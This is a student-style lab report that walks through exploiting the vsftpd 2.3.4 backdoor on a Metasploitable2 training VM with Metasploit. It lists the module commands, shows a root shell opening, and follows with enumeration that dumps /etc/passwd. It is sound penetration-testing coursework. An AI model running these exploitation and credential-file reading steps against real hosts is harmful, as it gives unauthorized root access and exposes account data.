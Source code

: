 # Cybersecurity Lab Report – vsftpd 2.3.4 Exploit Walkthrough

**Date:** 2025-05-14  
**Target:** Metasploitable2 (192.168.56.101)  
**Attacker:** Kali Linux (192.168.56.102)  
**Tool Used:** Metasploit Framework  
**Exploit Module:** `exploit/unix/ftp/vsftpd_234_backdoor`

** PLEASE VIEW THE README FOR A SUMMARY OF THIS LAB **

---

## Objective

Establish unauthorized remote access to a vulnerable FTP service (vsftpd 2.3.4) running on Metasploitable2 using the Metasploit Framework.

---

## Exploitation Steps

1. **Start Metasploit Console**
    ```bash
    msfconsole
    ```

2. **Search and select the exploit module**
    ```bash
    search vsftpd
    use exploit/unix/ftp/vsftpd_234_backdoor
    ```

3. **Configure target IP**
    ```bash
    set RHOST 192.168.56.101
    ```

4. **Launch the exploit**
    ```bash
    exploit
    ```

5. **Successful Result**
    ```
    [+] 192.168.56.101:21 - UID: uid=0(root) gid=0(root)
    [*] Found shell.
    [*] Command shell session 1 opened (192.168.56.102:42427 -> 192.168.56.101:6200)
    ```

---

## Post-Exploitation Enumeration

## Whoami
```bash
whoami
> root

## System Information
uname -a
> Linux metasploitable 2.6.24-16-server ...

## User Enumeration
cat /etc/passwd

## Output
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
msfadmin:x:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
bind:x:105:113::/var/cache/bind:/bin/false
postfix:x:106:115::/var/spool/postfix:/bin/false
ftp:x:107:65534::/home/ftp:/bin/false
postgres:x:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
mysql:x:109:118:MySQL Server,,,:/var/lib/mysql:/bin/false
tomcat55:x:110:65534::/usr/share/tomcat5.5:/bin/false
distccd:x:111:65534::/:/bin/false
user:x:1001:1001:just a user,111,,:/home/user:/bin/bash
service:x:1002:1002:,,,:/home/service:/bin/bash
telnetd:x:112:120::/nonexistent:/bin/false
proftpd:x:113:65534::/var/run/proftpd:/bin/false
statd:x:114:65534::/var/lib/nfs:/bin/false

## Analysis
vsftpd 2.3.4 contains a backdoor vulnerability (CVE-2011-2523)

A crafted username triggers a hidden shell on port 6200

Exploitation using Metasploit successfully created a root shell session

/etc/passwd reveals many local user accounts:

root, msfadmin, postgres, user, service

## Outcome
Gained remote root access to Metasploitable2

Confirmed working exploit with Metasploit

Successfully performed post-exploitation enumeration

Verified lab network and tools are functioning as expected

